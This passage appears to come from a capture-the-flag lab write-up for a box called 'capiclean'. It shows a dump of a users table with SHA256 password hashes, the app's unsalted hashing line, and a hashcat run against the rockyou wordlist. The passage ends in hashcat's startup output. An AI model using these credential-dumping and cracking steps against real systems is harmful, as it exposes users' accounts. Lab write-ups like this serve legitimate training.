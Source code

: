 ```sql
mysql> use capiclean
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> Select * From users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

I found two password hash in the database. A quick look at the code showed they were SHA256.


```python
password = hashlib.sha256(request.form['password'].encode()).hexdigest()
```

I used hashcat to crack them.

```bash
$ hashcat -a0 hash.txt /usr/share/seclists/rockyou.txt --username -m1400
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 6848/13761 MB (2048 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

```